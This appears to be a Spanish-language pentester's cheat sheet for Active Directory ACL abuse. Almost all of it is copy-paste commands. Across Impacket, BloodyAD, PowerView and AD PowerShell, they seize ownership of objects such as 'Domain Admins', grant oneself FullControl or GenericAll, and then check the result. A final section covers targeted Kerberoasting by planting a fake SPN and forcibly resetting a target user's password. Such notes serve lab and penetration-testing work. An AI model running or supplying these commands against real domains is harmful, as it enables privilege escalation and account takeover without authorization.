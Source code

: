 # Info

Si tenemos acceso a la máquina solo mediante winrm, evil-winrm tiene muchos problemas de sesión, para no perder tiempo: Usar directamente las herramientas de linux.

# Desde Linux

### Impacket

#### Cambiar el ownership
    impacket-owneredit -action write -new-owner 'aaru' -target-dn 'CN=Domain Admins,CN=Users,DC=ignite,DC=local' 'ignite.local'/'aaru':'Password@1' -dc-ip 192.168.1.6

#### Darse full control

    impacket-dacledit -action 'write' -rights 'FullControl' -principal '{user}' -target 'ca_svc' '{domain name}'/'{user}':'{password}' -dc-ip 192.168.1.6

#### Validar el new owner

    ldapsearch -x -H ldap://<IP_O_SERVIDOR> -D "usuario@dominio.com" -w "contraseña" -b "DC=dominio,DC=com" "(distinguishedName=CN=UsuarioTarget,OU=Usuarios,DC=dominio,DC=com)" nTSecurityDescriptor
### BloodyAD

#### Cambiar el owner

    bloodyAD --host {host name} -d {domain name} -u {user} -p {password} set owner ca_svc ryan 

#### Darse full rights

    bloodyAD -u "DOMINIO\usuario" -p "contraseña" -d dominio.local set-permission -t "CN=UsuarioTarget,OU=Usuarios,DC=dominio,DC=com" -o "DOMINIO\NuevoOwner" -p "GenericAll"

#### Validar ownership y GenericAll

    bloodyAD -u "example\admin" -p "Password123" -d example.local get-object-acl -t "CN=JohnDoe,OU=Users,DC=example,DC=local" | grep -E "(Owner|GenericAll)"
# Desde windows

### Powerview

#### Tomar control
    Set-DomainObjectOwner -Identity 'TARGET' -OwnerIdentity 'sameer'

#### Darse full control

    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "TARGET" -PrincipalIdentity "sameer"
#### Validar el nuevo owner

    (Get-ObjectACL -Identity "CN=UsuarioTarget,OU=Usuarios,DC=Dominio,DC=Local" -ResolveGUIDs).Owner
    
### AD powershell
    $user = Get-ADUser -Identity "TARGET" -Properties * 
    $acl = Get-ACL -Path "AD:\$($user.DistinguishedName)"
    $newOwner = (New-Object System.Security.Principal.NTAccount("Dominio\NuevoPropietario"))
    $acl.SetOwner($newOwner)
    Set-ACL -Path "AD:\$($user.DistinguishedName)" -AclObject $acl

#### Validar el nuevo owner

    $acl.Owner

#### Dar full rights
    Set-ACL -Path "AD:\CN=UsuarioTarget,OU=Usuarios,DC=Dominio,DC=Local" -AclObject (Get-ACL -Path "AD:\CN=UsuarioTarget,OU=Usuarios,DC=Dominio,DC=Local").AddAccessRule((New-Object System.DirectoryServices.ActiveDirectoryAccessRule -ArgumentList (New-Object System.Security.Principal.NTAccount('Dominio\NuevoOwner')), "GenericAll", "Allow"))

---

# Explotación/abuso
## Kerberoasting
#### 1) Creamos un spn falso sobre el usuario

    Set-DomainObject -Identity 'TARGET' -Set @{serviceprincipalname='mydomain/Testing'}
#### 2) Kerberosteamos y crackeamos.

## Cambiar contraseña del user

### BloodyAD
    bloodyAD --host "192.168.1.6" -d "ignite.local" -u "sakshi" -p "Password@1" set password "TARGET" "Password@987"

### Impacket
#### Cambiar mediante kpasswd
    impacket-changepasswd -reset -protocol kpasswd contoso.local/Target@DC1 -newpass 'N3wPassw0rd!' -altuser CONTOSO/SrvAdm
#### Cambiar mediante ldap
    impacket-changepasswd -reset -protocol ldap contoso.local/target@DC1 -newpass 'N3wPassw0rd!' -altuser CONTOSO/SrvAdm
